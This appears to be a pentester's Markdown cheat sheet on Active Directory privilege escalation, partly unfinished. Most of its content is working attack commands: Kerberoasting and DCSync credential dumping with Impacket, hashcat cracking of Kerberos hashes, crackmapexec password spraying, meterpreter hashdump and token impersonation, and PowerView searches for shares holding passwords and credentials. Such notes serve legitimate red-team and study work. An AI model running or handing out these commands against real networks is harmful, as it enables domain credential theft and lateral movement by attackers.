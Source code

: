 # Active Directory PrivEsc

## Introduction

## Tools

#### Bloodhound and Sharphound

[Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) is the collector that gathers all the information abnout the 
network and compresses it into a zip file. You can then import this data and view a map of the AD domain. This very import to see weak points
like DCsyncs, Usernames, Trust 


#### Crackmapexec


#### Empire and Starkiller


Rubeus, Seatbelt, Mimikatz...

#### Hashcat/JtR


`hashcat -m 13100 -a 0 hash.txt rockyou.txt`


#### Impacket

Kerberoasting 
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP $DOMAIN.local/$USER:$PASSWORD -request
```
Exploit DCSync Privileges
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip $IP $DOMAIN/$USER@$IP
```

#### Kerbrute

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [proxychains in proxies]() and [metasploit autoroute and socks5 server](). 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter

migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $ TOKEN

```

#### Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains."
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. 
Get PowerView on the box, you need some help.
```
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```


## General Enumeration

```powershell
ipconfig /displaydns	# Get DC ip
Get-ADForest | Select-Object Domains								# Lists all Domains in Forest
Get-ADTrust -Filter * | Select-Object Direction,Source,Target					# List trust information
dsquery group -name "Domain Admins" | dsget group -expand -members				# Query for all DCs
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster				# List all DCs
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description.length -gt 8 } 	# Searching AD replace *!
```





